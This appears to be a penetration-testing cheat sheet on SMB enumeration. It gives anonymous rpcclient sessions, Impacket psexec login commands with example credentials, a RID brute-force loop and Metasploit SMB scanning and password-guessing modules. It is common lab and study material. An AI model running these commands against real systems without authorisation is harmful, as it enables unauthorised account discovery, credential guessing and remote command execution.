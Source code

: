 --------------------------------------------------------------------

## rpcclient

```bash
$ rpcclient -U “” -N 0.0.0.0 (blank user and no pass) —> anonymous session allowed?

$ rpcclient U "" 10.129.14.128
```

#### Impacket PsExec
```shell
$ impacket-psexec -h
```
```shell
$ impacket-psexec administrator:'Password123!'@10.10.110.17
```
The same options apply to `impacket-smbexec` and `impacket-atexec`.


#### rpcclient Commands

The rpcclient offers many different requests to execute specific functions on the SMB server to gather information. A complete list of these functions can be found in the rpcclient man page.

| Query                     | Description                                                        |
| ------------------------- | ------------------------------------------------------------------ |
| `srvinfo`                 | Server information.                                                |
| `enumdomains`             | Enumerate all domains deployed in the network.                     |
| `querydominfo`            | Provides domain, server, and user information of deployed domains. |
| `netshareenumall`         | Enumerates all available shares.                                   |
| `netsharegetinfo <share>` | Provides information about a specific share.                       |
| `enumdomusers`            | Enumerates all domain users.                                       |
| `queryuser <RID>`         | Provides information about a specific user.                        |
| `querygroup <RID>`        |                                                                    |

## RID  Bruteforcing:

```shell
$ for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
```
--------------------------------------------------------------------

### Metasploit Enumeration

```bash
$ msfconsole

use auxiliary/scanner/smb/smb_version

use auxiliary/scanner/smb/smb2 (see if is vulnerable)

use auxiliary/scanner/smb/smb_enumshares

use /auxiliary/scanner/smb/smb_login
>set passwordlist, user and host

use auxiliary/scanner/smb/pipe_auditor
>set user, pass and host
```